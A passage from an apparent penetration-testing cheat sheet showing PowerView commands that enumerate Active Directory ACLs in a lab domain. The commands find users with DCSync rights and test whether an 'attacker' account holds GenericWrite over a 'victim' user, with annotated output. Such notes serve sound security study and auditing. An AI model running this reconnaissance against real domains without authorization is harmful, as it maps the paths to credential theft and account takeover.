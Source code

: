 Find all users who can DCSync and convert their SIDs to names:

```
PV3 > $dcsync = Get-ObjectACL "DC=megacorp,DC=local" -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "GenericAll|Replication-Get"} | select -ExpandProperty SecurityIdentifier | select -ExpandProperty value
PV3 > Convert-SidToName $dcsync
```



### PowerView2

Search for interesting ACLs:

```
PV2 > Invoke-ACLScanner -ResolveGUIDs
```

Check if the attacker "MEGACORP\\sbauer" has `GenericWrite` permissions on the "jorden" user object:

```
PV2 > Get-ObjectAcl -samAccountName jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -like "*GenericWrite*" -and $_.IdentityReference -eq "MEGACORP\sbauer"}

InheritedObjectType   : All
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL  <== Victim (jorden)
ObjectType            : All
IdentityReference     : MEGACORP\sbauer  <== Attacker (sbauer)
IsInherited           : False
ActiveDirectoryRights : GenericWrite
PropagationFlags      : None
ObjectFlags           : None
InheritanceFlags      : ContainerInherit
InheritanceType       : All
AccessControlType     : Allow
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110
```



### PowerView3

Search for interesting ACLs:

```
PV3 > Find-InterestingDomainAcl -ResolveGUIDs | ? {$_.IdentityReferenceClass -match "user"}
```

Check if the attacker "MEGACORP\\sbauer" (`S-1-5-21-3167813660-1240564177-918740779-3102`) has `GenericWrite` permissions on the "jorden" user object:

```
PV3 > Get-DomainObjectAcl -Identity jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -like "*GenericWrite*" -and $_.SecurityIdentifier -eq "S-1-5-21-3167813660-1240564177-918740779-3102"}

AceType               : AccessAllowed
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL
ActiveDirectoryRights : GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110  <== Victim (jorden)
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3167813660-1240564177-918740779-3102  <== Attacker (sbauer)
AccessMask            : 131112
AuditFlags            : None
```